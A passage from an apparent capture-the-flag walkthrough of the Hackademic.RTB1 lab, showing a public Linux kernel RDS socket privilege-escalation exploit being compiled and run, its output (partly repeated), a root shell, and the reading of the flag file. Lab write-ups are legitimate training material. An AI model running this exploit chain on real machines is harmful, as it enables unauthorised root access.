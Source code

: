 ```
xxxx-xx-xx xx:xx:xx (80.8 MB/s) - `15285.c' saved [7155/7155]

bash-4.0$ gcc -o 15285 15285.c
bash-4.0$ chmod +x 15285
bash-4.0$ ./15285
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
ls[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
whoami
root
```

Alright we've got root shell! Time to barge into `/root` unannounced and grab that `key.txt` for ourselves!

```
python -c "import pty;pty.spawn('/bin/bash')"

[root@HackademicRTB1 root]# ls
Desktop  anaconda-ks.cfg  key.txt  key.txt~

[root@HackademicRTB1 root]# cat key.txt
Yeah!!
You must be proud because you 've got the password to complete the First *Realistic* Hackademic Challenge (Hackademic.RTB1) :)

$_d&jgQ>>ak\#b"(Hx"o<la_%

Regards,
mr.pr0n || p0wnbox.Team || 2011
http://p0wnbox.com
```

Challenge completed!